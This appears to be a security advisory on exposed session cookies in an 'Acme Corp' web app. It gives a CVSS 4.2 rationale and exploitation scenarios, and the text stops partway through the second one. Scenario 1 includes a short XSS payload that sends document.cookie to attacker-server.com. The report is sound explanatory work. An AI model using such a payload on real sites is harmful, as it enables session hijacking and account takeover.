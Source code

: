 # CVSS
**Score**: 4.2 \
**Vector**: CVSS:3.1/AV:N/AC:H/PR:N/UI:R/S:U/C:L/I:L/A:N \
**Severity**: Medium

The vulnerability receives a Medium severity rating (CVSS score: 4.2) based on the following factors:

- **Network Attack Vector (AV:N)**: The vulnerability is exploitable remotely over the internet, as the session cookies are transmitted to and accessible by client browsers.

- **High Attack Complexity (AC:H)**: Successful exploitation typically requires another vulnerability to exist (such as XSS) or special circumstances, increasing complexity. The attacker needs to both find an injection point and successfully execute malicious JavaScript in the victim's browser.

- **No Privileges Required (PR:N)**: An attacker doesn't need any authentication to exploit this vulnerability; they only need to find a way to execute JavaScript in the victim's browser context.

- **User Interaction Required (UI:R)**: The victim typically needs to interact with a malicious payload or visit a compromised page for the attack to succeed.

- **Unchanged Scope (S:U)**: The vulnerability does not cause an impact beyond the vulnerable component's security scope.

- **Low Confidentiality Impact (C:L)**: Session token theft could lead to unauthorized access to user information, but is typically limited to what that particular user can access.

- **Low Integrity Impact (I:L)**: An attacker could make unauthorized modifications through the hijacked session, but again limited to the victim user's permissions.

- **No Availability Impact (A:N)**: This vulnerability doesn't directly impact system availability.

The score reflects that while exploitation requires additional factors (like an XSS vulnerability), the potential consequences of session hijacking make this a significant security issue requiring prompt remediation.

# Exploitation Scenarios
**Scenario 1: Cross-Site Scripting + Session Hijacking**
An attacker discovers an XSS vulnerability in Acme Corp's web application, perhaps in a search function or comment system. They craft a payload that, when executed in a victim's browser, accesses the session cookie and transmits it to an attacker-controlled server:

```javascript
// Malicious script injected via XSS vulnerability
var stolenCookie = document.cookie;
fetch('https://attacker-server.com/collect?cookie=' + encodeURIComponent(stolenCookie));

```

When a victim with an active session encounters this XSS payload, their session token is automatically exfiltrated. The attacker can then use this token to impersonate the victim, gaining unauthorized access to their account without needing their password.

**Scenario 2: Malicious Browser Extension**
A user installs what appears to be a legitimate browser extension (e.g., a coupon finder or productivity tool). Unknown to the user, this extension contains malicious code that reads cookies from visited sites:
